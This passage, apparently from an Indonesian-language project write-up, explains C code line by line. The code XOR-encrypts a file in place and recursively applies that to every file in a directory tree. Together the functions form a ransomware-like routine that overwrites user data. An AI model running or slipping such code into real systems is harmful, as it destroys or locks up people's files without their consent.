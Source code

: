 ```bash

    for (long i = 0; i < size; i++) {
        data[i] ^= key;
    }

    file = fopen(path, "wb");
    if (file) {
        fwrite(data, 1, size, file);
        fclose(file);
    }

    free(data);
}
```
- `FILE *file = fopen(path, "rb");` membuka file untuk dibaca
- ` fread(data, 1, size, file);
    fclose(file);` membaca semua konten file ke dalam memori
- `for (long i = 0; i < size; i++) {
        data[i] ^= key;
    }` Meng-XOR-kan setiap byte dengan key.
- `file = fopen(path, "wb");
    if (file) {
        fwrite(data, 1, size, file);
        fclose(file);
    }` Menuliskan kembali konten terenkripsi ke dalam file.

  Encrypt_directory
  ```bash
  void encrypt_directory(const char *dir_path, unsigned char key) {
    DIR *dir = opendir(dir_path);
    if (!dir) return;

    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;

        char full_path[512];
        snprintf(full_path, sizeof(full_path), "%s/%s", dir_path, entry->d_name);

        struct stat st;
        if (stat(full_path, &st) == 0) {
            if (S_ISREG(st.st_mode)) {
                xor_encrypt_file(full_path, key);
            } else if (S_ISDIR(st.st_mode)) {
                encrypt_directory(full_path, key);
            }
        }
    }

    closedir(dir);
  }
  ```
  - `DIR *dir = opendir(dir_path);` membuka directory
  - `if (S_ISREG(st.st_mode)) { 
                xor_encrypt_file(full_path, key);  ` jika file reguler maka akan diencrypt
  -  `else if (S_ISDIR(st.st_mode)) { 
                encrypt_directory(full_path, key);  ` jika itu directory maka akan di recurse
  